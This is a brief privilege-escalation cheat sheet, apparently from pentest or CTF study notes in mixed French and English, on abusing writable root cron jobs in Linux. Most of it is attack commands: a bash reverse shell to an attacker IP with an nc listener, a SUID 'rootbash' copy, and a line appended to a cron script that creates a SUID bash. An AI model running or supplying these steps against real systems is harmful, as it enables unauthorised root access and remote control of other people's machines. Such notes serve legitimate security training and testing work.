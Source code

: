 
### EXLOITING CRON JOBS :
view which ones are actives : 
```bash
cat /etc/crontab
```
On regarde si certains se lance avec des droits root et si on peut les modifier  
(Typiquement un backup.sh)
Si oui, il y a la place pour un reverse shell ou une modification de /etc/sudoers



***Format =# = ID***  
***m*** = Minute  
***h*** = Hour  
***dom*** = Day of the month  
***mon*** = Month  
***dow*** = Day of the week  
***user*** = What user the command will run as  
***command*** = What command should be run  
For Example :    
```
-  m   h dom mon dow user  command  
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
### WRITEABLE CRON JOBS :
### Exemple :
##### REVERSE SHELL :
on écrit l'imitation du file et on setup un listener (en ayant remplacer l'ip et le port:
```bash
#!/bin/bash
bash -i >& /dev/tcp/[Adresse IP]/4444 0>&1
```
```bash
nc -lvnp 4444
```

##### ROOTBASH :
locate PATH  
make an imitating file with :
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
```
```bash
chmod +xs /tmp/rootbash
chmod +x /path/filename.sh
```
wait for the cron job executing
```bash
/tmp/rootbash -p
```
##### OVERWRITING CRONS
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
wait till it executes
/tmp/bash -p
